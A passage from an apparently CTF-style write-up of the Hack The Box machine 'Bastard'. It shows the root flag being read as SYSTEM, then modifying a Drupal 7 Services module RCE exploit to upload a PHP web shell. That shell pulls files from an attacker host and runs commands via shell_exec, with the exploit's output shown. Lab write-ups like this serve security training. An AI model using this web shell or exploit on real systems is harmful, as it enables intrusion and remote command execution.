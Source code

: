 Excellent, we are now connected as system user so we can grab the root flag:

```text
C:\inetpub\drupal-7.54>dir c:\users\administrator\desktop
dir c:\users\administrator\desktop
 Volume in drive C has no label.
 Volume Serial Number is 605B-4AAA
 Directory of c:\users\administrator\desktop
19/03/2017  08:33       <DIR>          .
19/03/2017  08:33       <DIR>          ..
19/03/2017  08:34                   32 root.txt.txt
               1 File(s)             32 bytes
               2 Dir(s)  30.816.452.608 bytes free

C:\inetpub\drupal-7.54>type c:\users\administrator\desktop\root.txt.txt
type c:\users\administrator\desktop\root.txt.txt
<<HIDDEN>>
```

## Alternative IPPSEC Method

Start by editing 41564.php so it looks like this:

```text
<SNIP>
$phpcode = <<< 'EOD'
<?php
    if (isset($_REQUEST['fupload'])) {
        file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.34:8000/" . $_REQUEST['fupload']));
    };
    if (isset($_REQUEST['fexec'])) {
        echo "<pre" . shell_exec($_REQUEST['fexec']) . "</pre>";
    };
?>
EOD;

$file = [
    'filename' => 'spen.php',
    'data' => $phpcode
];
<SNIP>
```

Run exploit to upload the file:

```text
root@kali:~/htb/bastard# php 41564.php
# Exploit Title: Drupal 7.x Services Module Remote Code Execution
# Vendor Homepage: https://www.drupal.org/project/services
# Exploit Author: Charles FOL
# Contact: https://twitter.com/ambionics
# Website: https://www.ambionics.io/blog/drupal-services-module-rce
#!/usr/bin/php
Stored session information in session.json
Stored user information in user.json
Cache contains 7 entries
File written: http://10.10.10.9/spen.php
```
